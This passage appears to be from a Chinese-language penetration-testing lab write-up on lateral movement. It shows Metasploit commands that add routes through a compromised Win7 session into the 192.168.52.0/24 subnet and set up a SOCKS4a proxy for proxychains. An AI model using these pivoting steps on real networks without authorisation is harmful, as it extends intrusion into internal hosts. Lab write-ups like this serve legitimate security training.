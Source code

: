 ![](https://i.loli.net/2021/05/18/tGF9k6MWTpnZE3S.png)

> 关于命令`FOR /L %%parameter IN (start,step,end) DO command`:
> ![](https://i.loli.net/2021/04/18/muFeXKx6Y92kwAT.png)

## 横向移动



### msf添加路由、设置socks4a代理

这里添加路由的目的是让其他msf模块也能访问内网的其他主机，也就是通过这台win7的msf会话传递网段192.168.52.x的攻击流量

```shell
# msf下
run get_local_subnets				# 获取内网字段
run autoroute -s 192.168.52.0/24	# 添加路由
run autoroute -p 					# 列出路由表
```

![](https://i.loli.net/2021/05/24/W8xoyc1GOfpetaP.png)

arp -a查看一下所有接口的当前 ARP 缓存表

![](https://i.loli.net/2021/11/06/DhIsXB4Nr7c9uU8.png)

设置socks4a代理

> 参考文章：[内网渗透-msf及socks代理转发_baynk的博客-CSDN](https://blog.csdn.net/u014029795/article/details/117375754)

但是msf6没有socks4a这个模块了，在`msf6`中代理模块改为了`auxiliary/server/socks_proxy`

![](https://i.loli.net/2021/05/24/zfGaxtN5QynlkTB.png)

```shell
background							# 将进程放置后台
use auxiliary/server/socks_proxy	# 利用这个模块设置代理
show options						# 可以看到默认用socks5
set version 4a						# 选择sock的版本
set srvhost 127.0.0.1				# 指定监听的接口ip和端口
set srvport 1088
```

```shell
exploit		# 运行后会自动挂到后台
jobs		# 看一下~
```

![](https://i.loli.net/2021/11/06/qnRryupCh7gzLNt.png)



接着修改/etc下的proxychains4.conf这个文件

![](https://i.loli.net/2021/11/06/GkFHoNSLKWYut5f.png)
